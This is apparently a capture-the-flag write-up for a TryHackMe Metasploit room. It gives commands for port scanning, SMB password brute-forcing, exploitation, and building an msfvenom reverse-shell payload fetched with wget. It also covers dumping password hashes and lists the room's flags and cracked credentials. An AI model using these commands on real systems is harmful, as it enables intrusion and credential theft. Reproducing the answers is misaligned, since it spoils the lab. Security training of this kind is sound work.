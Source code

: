 ```yaml
---
description: Using Metasploit for scanning, vulnerability assessment and exploitation.
---
```


# Metasploit: Exploitation

{% embed url="https://tryhackme.com/room/metasploitexploitation" %}
https://tryhackme.com/room/metasploitexploitation
{% endembed %}

## Task 2 Scanning

#### How many ports are open on the target system?

```bash
msfconsole
msf > search portscan
msf > use 5
msf > setg RHOSTS 10.10.18.164
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-25-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-34-19.png>)

{% hint style="success" %}
`5`
{% endhint %}

#### Using the relevant scanner, what NetBIOS name can you see?

```bash
msf > search netbios
msf > use 2
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-36-28.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-37-42.png>)

{% hint style="success" %}
`ACME IT SUPPORT`
{% endhint %}

#### What is running on port 8000?

```bash
msf > search http_version
msf > use 0
msf > set RPORT 8000
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-41-46.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-42-40.png>)

{% hint style="success" %}
`webfs/1.21`
{% endhint %}

#### What is the "penny" user's SMB password?

```bash
msf > search smb_login
msf > use 0
msf > set SMBUser penny
msf > set PASS_FILE MetasploitWordlist.txt
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 18-44-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-08-53.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-09-17.png>)

{% hint style="success" %}
`leo1234`
{% endhint %}

## Task 4 Vulnerability Scanning

#### Who wrote the module that allows us to check SMTP servers for open relay?

```bash
msf > search smtp relay
msf > use 0
msf > info
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-25-26.png>)

{% hint style="success" %}
`Campbell Murray`
{% endhint %}

## Task 5 Exploitation

#### Exploit one of the critical vulnerabilities on the target VM

```bash
msfconsole
msf > use 0
msf > set RHOSTS 10.10.5.180
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-29-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-33-07.png>)

#### What is the content of the flag.txt file?

```bash
meterpreter > search -d C:\\ -f flag.txt
meterpreter > cat 'C:\Users\Jon\Documents\flag.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-35-54.png>)

{% hint style="success" %}
`THM-5455554845`
{% endhint %}

#### What is the NTLM hash of the password of the user "pirate"?

```bash
hashdump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 19-37-08.png>)

{% hint style="success" %}
`8ce9a3ebd1647fcc5e04025019f4b875`
{% endhint %}

## Task 6 Msfvenom

#### Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

```bash
ssh murphy@10.10.180.250
sudo -l
sudo su -
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-09-29.png>)

#### Create a meterpreter payload in the .elf format.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.6.9.176 \
         -a x86 --platform linux -f elf -o shell.elf
cp shell.elf /var/www/html
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-11-41.png>)

#### Transfer it to the target machine

```bash
wget http://10.6.9.176/shell.elf
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-13-47.png>)

#### Get a meterpreter session on the target machine.

```bash
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-16-33.png>)

```bash
chmod +x shell.elf
./shell.elf
```

#### Use a post exploitation module to dump hashes of other users on the system.

```bash
msf > search hashdump
msf > use 5
msf > set SESSION 2
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-20-21.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-20-51.png>)

#### What is the other user's password hash?

{% hint style="success" %}
`$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`
{% endhint %}
